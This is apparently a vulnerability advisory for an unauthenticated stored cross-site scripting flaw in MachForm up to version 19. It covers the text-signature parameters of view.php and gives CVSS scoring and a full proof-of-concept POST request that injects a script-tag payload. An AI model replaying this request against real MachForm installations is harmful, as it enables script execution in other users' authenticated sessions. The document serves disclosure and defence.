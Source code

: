 # Description
MachForm up to version 19 is affected by an unauthenticated stored cross-stie scripting which affects users with valid sessions whom can view compiled forms results.

In target web application, when using a form with text signature enabled, the request made to the vulnerable resource has been found to be suffering from XSS attack. A parameter of the body's POST request inside vulnerable URL lacks sanitization, this allows malicious payload to be placed and triggers JavaScript code on the victim’s browser. 
# Risk
- Severity: Medium
- CVSS v3.1 Score: 5.4
- CVSS v3.1 Vector: [**AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:L**](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:L&version=3.1)
# Affected Resources
- Version: up to MachForm v19
- https://<application-baseurl\>/view.php

The vulnerable parameters are dynamic based on where the text signature component is placed in the form:
- `element_{element_number}_text_signature`
- `element_{element_number}`
# Evidence
It is possible to inject a JavaScript payload in the vulnerable parameters.

![image_1](./images/image_1.png)

Request:
```
POST /view.php HTTP/1.1
Host: application-baseurl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://application-baseurl/
Content-Type: multipart/form-data; boundary=---------------------------6026266881719614557329755478
Content-Length: 1141
Origin: https://application-baseurl
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------6026266881719614557329755478
Content-Disposition: form-data; name="element_1"

test5
-----------------------------6026266881719614557329755478
Content-Disposition: form-data; name="element_4_text_signature"

"><script>alert(1)</script>
-----------------------------6026266881719614557329755478
Content-Disposition: form-data; name="element_4"

"><script>alert(1)</script>
-----------------------------6026266881719614557329755478
Content-Disposition: form-data; name="element_12"; filename=""
Content-Type: application/octet-stream

-----------------------------6026266881719614557329755478
Content-Disposition: form-data; name="element_12_token"

3cc3be6c0c28b67f1c55eb23786b2869
-----------------------------6026266881719614557329755478
Content-Disposition: form-data; name="form_id"

59032
-----------------------------6026266881719614557329755478
Content-Disposition: form-data; name="submit_form"

1
-----------------------------6026266881719614557329755478
Content-Disposition: form-data; name="page_number"

1
-----------------------------6026266881719614557329755478--
```

The payload then triggers in when an authenticated user edits the form result entry.

![image_2](./images/image_2.png)

![image_3](./images/image_3.png)
